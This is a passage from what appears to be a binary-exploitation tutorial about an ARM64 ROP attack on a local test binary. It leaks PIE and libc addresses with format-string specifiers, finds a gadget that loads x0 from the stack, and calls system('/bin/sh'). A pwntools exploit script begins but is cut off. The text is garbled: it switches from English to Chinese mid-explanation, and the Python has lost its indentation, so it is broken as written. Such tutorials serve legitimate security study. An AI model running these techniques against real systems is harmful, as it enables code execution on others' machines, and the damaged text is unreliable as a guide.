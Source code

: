 <figure><img src="../../../.gitbook/assets/image (1212).png" alt="" width="563"><figcaption></figcaption></figure>

Trying different offsets, the **`%21$p`** can leak a binary address (PIE bypass) and **`%25$p`** can leak a libc address:

<figure><img src="../../../.gitbook/assets/image (1220).png" alt="" width="440"><figcaption></figcaption></figure>

Subtracting the libc leaked address with the base address of libc, it's possible to see that the **offset** of the **leaked address from the base is `0x49c40`.**

### x30 offset

See the previous example as the bof is the same.

### Find Gadgets

Like in the previous example, we need to have in **`x0`** the address to the string **`/bin/sh`** and call **`system`**.

Using rooper another interesting gadget was found:
```
0x0000000000049c40: ldr x0, [sp, #0x78]; ldp x29, x30, [sp], #0xc0; ret;
```
这个工具将从**`$sp + 0x78`**加载`x0`，然后从sp加载地址x29和x30，最后跳转到x30。因此，利用这个工具，我们可以**控制第一个参数，然后跳转到system**。

### 攻击Exploit
```python
from pwn import *
from time import sleep

p = process('./rop')  # For local binary
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")

def leak_printf(payload, is_main_addr=False):
p.sendlineafter(b">\n" ,payload)
response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
if is_main_addr:
response = response[:-4] + b"0000"
return int(response, 16)

def expl_bof(payload):
p.recv()
p.sendline(payload)
```